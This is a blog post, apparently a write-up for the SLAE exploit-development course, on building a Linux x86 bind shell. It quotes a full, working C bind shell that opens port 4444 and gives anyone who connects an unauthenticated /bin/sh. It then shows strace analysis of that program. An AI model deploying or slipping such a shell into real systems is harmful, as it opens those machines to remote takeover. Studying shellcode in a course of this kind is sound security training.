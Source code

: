 ```yaml
---
layout: post
title: SLAE Exercise 1 - Bind Shell
subtitle: Linux x86 Bind Shell
tags: [SLAE]
---
```


**Overview**

The first task of the SLAE exam requires a bind shell to be written. The requirements for this were as follows:
	- Binds to a port.
	- Executes a shell on an incoming connection.
	- The port number should be easily configurable within the shell code. 

**Requirements**

To start, it is best to find out what is needed to create a bind shell in a higher level language, and how each of all of these components work. First of all, what is a bind shell?  A bind shell is a shell that binds to a specific port on the target that listens to incoming connections. When a device connects to this port, a shell will be presented. So what is needed from a bind shell? It needs to:

- Be waiting for an incoming connection - bind to a port. 
- Provide the incoming connection with a shell by utilising execve (syscall 11). 

The following C taken from [here] (https://azeria-labs.com/tcp-bind-shell-in-assembly-arm-32-bit/), was utilised to determine what was needed to create a bind shell:

~~~
#include <stdio.h> 
#include <sys/types.h>  
#include <sys/socket.h> 
#include <netinet/in.h> 
int host_sockid;    // socket file descriptor 
int client_sockid;  // client file descriptor 
struct sockaddr_in hostaddr;            // server aka listen address
int main() 
{ 
    // Create new TCP socket 
    host_sockid = socket(PF_INET, SOCK_STREAM, 0); 
    // Initialize sockaddr struct to bind socket using it 
    hostaddr.sin_family = AF_INET;                  // server socket type address family = internet protocol address
    hostaddr.sin_port = htons(4444);                // server port, converted to network byte order
    hostaddr.sin_addr.s_addr = htonl(INADDR_ANY);   // listen to any address, converted to network byte order
    // Bind socket to IP/Port in sockaddr struct 
    bind(host_sockid, (struct sockaddr*) &hostaddr, sizeof(hostaddr)); 
    // Listen for incoming connections 
    listen(host_sockid, 2); 
    // Accept incoming connection 
    client_sockid = accept(host_sockid, NULL, NULL); 
    // Duplicate file descriptors for STDIN, STDOUT and STDERR 
    dup2(client_sockid, 0); 
    dup2(client_sockid, 1); 
    dup2(client_sockid, 2); 
    // Execute /bin/sh 
    execve("/bin/sh", NULL, NULL); 
    close(host_sockid); 
    return 0; 
}
~~~

Using Strace along with the complied C bind shell, it can be seen exactly what Syscalls are required to write a bind shell. The command to run the program with strace was as follows:
~~~
	Sudo strace ./bind
~~~
The open port was connected to so that the entirety of the program running could be observed with strace. The following was observed:

![Crepe](https://image.ibb.co/gQbbNn/C_Bind_Strace.png)

Local Image(./img/SLAE_Bind/C_Bind_Strace.png)
